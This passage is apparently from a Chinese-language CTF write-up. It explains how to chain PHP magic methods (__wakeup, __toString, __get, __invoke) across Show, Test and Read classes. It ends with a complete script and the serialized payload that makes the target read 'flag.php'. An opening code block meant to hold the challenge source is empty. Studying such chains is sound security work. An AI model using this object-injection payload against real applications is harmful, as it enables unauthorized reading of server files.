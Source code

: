 ```php
```

接下来从前往后进行填充数据，首先是`Show`对象，反序列化时会自动调用其`__wakeup`方法，这里会直接导向到它的`source`的`__toString`，那么在`Show::__toString`中呢，访问的是`$this->str['str']->source`，前面分析这里是调用`__get`的点，那么这两个`Show`对象填充起来就没什么问题了。

```php
$show->source = $show2;
$show2->str = array('str' => $test);
```

接下来看`Test`是怎么填充的，注意这里已经是到了`Test::__get`方法，这里只需要将`$this->p`设为一个`Read`对象即可调用`Read::__invoke`，于是：

```php
$test->p = $read;
```

再看最后的`Read`对象，这里就没啥好说的了，直接设置其`$var`即可：

```php
$read->var = 'flag.php';
```

然后组合起来，并且将其进行序列化可以得到：

```php
<?php
class Read
{
    public $var;
}

class Show
{
    public $source;
    public $str;
}

class Test
{
    public $p;
}

$show = new Show();
$show2 = new Show();
$test = new Test();
$read = new Read();

$show->source = $show2;
$show2->str = array('str' => $test);
$test->p = $read;
$read->var = 'flag.php';
echo serialize($show);
// O:4:"Show":2:{s:6:"source";O:4:"Show":2:{s:6:"source";N;s:3:"str";a:1:{s:3:"str";O:4:"Test":1:{s:1:"p";O:4:"Read":1:{s:3:"var";s:8:"flag.php";}}}}s:3:"str";N;}
```
